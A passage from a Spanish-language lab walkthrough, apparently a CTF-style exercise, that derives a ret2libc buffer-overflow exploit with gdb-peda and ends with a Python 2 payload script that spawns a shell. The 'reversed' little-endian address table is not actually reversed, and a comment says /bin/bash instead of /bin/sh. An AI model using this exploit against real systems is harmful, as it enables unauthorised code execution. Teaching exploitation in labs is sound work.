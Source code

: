 ```bash
0000| 0xffffcfc0 ("A)AAEAAaAA0AAFAAbA")
0004| 0xffffcfc4 ("EAAaAA0AAFAAbA")
0008| 0xffffcfc8 ("AA0AAFAAbA")
0012| 0xffffcfcc ("AFAAbA")
0016| 0xffffcfd0 --> 0x4162 ('bA')
0020| 0xffffcfd4 --> 0x0
0024| 0xffffcfd8 --> 0x13
0028| 0xffffcfdc --> 0x3e8
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x413b4141 in ?? ()
gdb-peda$
```

- Vamos a ver el `offset`.

```bash
gdb-peda$ pattern_offset 0x413b4141
1094402369 found at offset: 28
```

- En este tipo de explotaciones tenemos que saber la dirección de la función `system` y `exit` ya que son funciones de `libc`.

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7c4c870 <system>
gdb-peda$
```

- Ahora la dirección de `exit`.

```bash
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7c3c130 <exit>
```

- Ahora vamos a ver la dirección de `/bin/sh` de `libc`.

```bash
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc.so.6 : 0xf7db5fc8 ("/bin/sh")
```

- Estamos en `little endian` entonces tenemos que darle la vuelta a todas las direcciones.

```bash
0xf7c4c870    |   \xf7\xc4\xc8\x70
0xf7c3c130    |   \xf7\xc3\xc1\x30
0xf7db5fc8    |   \xf7\xdb\x5f\xc8
```

- Ahora definimos el script.

```bash
➜  levels cat levelFour.py
#!/usr/bin/python2

offset = 28

junk = b"A" * offset

addr_system = b"\x70\xc8\xc4\xf7"
addr_exit = b"\x30\xc1\xc3\xf7"
addr_bin_sh = b"\xc8\x5f\xdb\xf7" # aqui es donde llamamos a /bin/bash para que nos de una shell

print(junk + addr_system + addr_exit + addr_bin_sh)
```